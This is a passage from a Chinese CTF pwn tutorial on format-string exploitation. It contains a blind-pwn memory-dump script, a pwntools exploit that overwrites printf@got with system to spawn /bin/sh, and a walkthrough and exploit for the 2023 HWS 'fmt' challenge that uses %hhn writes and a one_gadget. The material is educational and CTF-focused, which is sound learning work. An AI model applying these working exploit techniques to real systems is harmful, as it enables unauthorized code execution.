    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

之后也是导入IDA中，偏移地址改为我们找到的起始地址，红色部分就是没有泄露的函数，后面跟的函数的plt地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224233-5460378a-2579-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224237-56b3e3a6-2579-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224249-5ddf3e0a-2579-1.png)

从三部分分析exp

*   第一部分，这是经过测试出来的，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224254-61099206-2579-1.png)

这里第一部分经过搜集资料知道了这里是无关字节，可以用**\\xff\\x25**表示无用字节码，然后后面4个字节就是我们需要的printf的got表地址

*   第二部分，这里也是测试出来的，跟上面同理，只不过没有了无用字节码了
*   第三部分，这里是用了pwntools中的fmtstr\_payload函数，因为我们实际上调用的还是printf@got，就把printf@got的地址改为了system的地址，从而执行system,之后我们再手动传参一个/bin/sh从而getshell

exp:

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level='debug'
context.arch='i386'

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']


p = remote('127.0.0.1',10002)
#elf=ELF('./dump_bin')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
#p=process('./dump_bin')

printf_plt=0x08048490
name='aaaa'
p.sendline(name)
p.recv()

payload=b'%9$saaaa'+p32(printf_plt)
p.sendline(payload)
p.recvuntil('right:')
p.recvuntil('\xff\x25')
printf_got=u32(p.recv(4))
leak('printf_got',printf_got)

p.recv()

payload1=b'%9$saaaa'+p32(printf_got)
p.sendline(payload1)
p.recvuntil('right:')
printf=u32(p.recv(4))
leak('printf',printf)

libcbase=printf-libc.symbols['printf']
leak('libcbase',libcbase)

system=libcbase+libc.symbols['system']
leak('system',system)


shell=fmtstr_payload(7, {printf_got: system})
p.sendline(shell)
p.sendline('/bin/sh\00')
p.interactive()
```

#### 2023HWS fmt

在学习完格式化字符串之后，尝试下去打了HWS的fmt这道题，比赛时还差一点打出来，赛后在其他师傅的指导下打出来了

**file&checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224306-67f894a4-2579-1.png)

保护全开的格式化字符串

**IDA静态分析一下**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}
```

run()

```plain
unsigned __int64 run()
{
  char s1[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v2; // [rsp+58h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("I need a str: ");
  read_n(s1, 80LL);
  if ( !strcmp(s1, "EXIT") )
    exit(0);
  printf(s1);
  putchar(10);
  printf("I need other str: ");
  read_n(s1, 80LL);
  printf(s1);
  return __readfsqword(0x28u) ^ v2;
}
```

可以看到这里其实就是格式化字符串的漏洞利用点了

第一个printff泄露栈上数据，得到libc基址，栈基址以及elf文件基址。第二次printf利用先前泄露的地址，通过%hhn，修改run函数返回地址的低位字节，将其修改为main函数中的call run指令。

这样当我们执行完run之后会再次调用run,我们可以每次printf都往run函数的返回地址下方写入rop链，并将run的返回地址修改为call run，这样返回到rop链在run的返回地址下布置好，最后一次再把run的返回地址改为与其相近的ret指令地址即可执行rop链从而getshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230718224313-6c89edf6-2579-1.png)

exp:

```plain
from pwn import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()


payload='%19$p,%9$p,%14$p'

#dbg()

sl(payload)
ru(b'0x')
pie=int(p.recv(12),16)-elf.sym['main']-28
ru(b'0x')
libcbase=int(p.recv(12),16)-libc.sym['_IO_file_setbuf']-13
ru(b'0x')
rbp=int(p.recv(12),16)
ret=rbp+8
__libc_start=ret+0x10
print('libc :'+hex(libcbase))
print('pie :'+hex(pie))
print('stack :'+hex(ret))
print('__libc_start :'+hex(__libc_start))
# _IO_file_setbuf+13

ogg=[0xe3afe,0xe3b01,0xe3b04]
o=libcbase+ogg[1]
leave=(0x01301+pie)&0xff
print('leave :'+hex(leave))

ogg1=o&0xff
ogg2=(o>>8)&0xff
ogg3=(o>>16)&0xff
print('o ogg1 ogg2 ogg3',hex(o),hex(ogg1),hex(ogg2),hex(ogg3))
payload=b'%'+str(ogg1).encode()+b'c%11$hhn'
payload+=b'%'+str(ogg2-ogg1).encode()+b'c%12$hhn'
payload+=b'%'+str(ogg3-ogg2).encode()+b'c%13$hhnaaaaaaa'
payload+=p64(__libc_start)
payload+=p64(__libc_start+1)
payload+=p64(__libc_start+2)
#dbg()
sl(payload)

p.interactive()
```

# 参考

[原理介绍 - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

[格式化字符串 - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2)

[Blind\_pwn之格式化字符串 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/157555389)
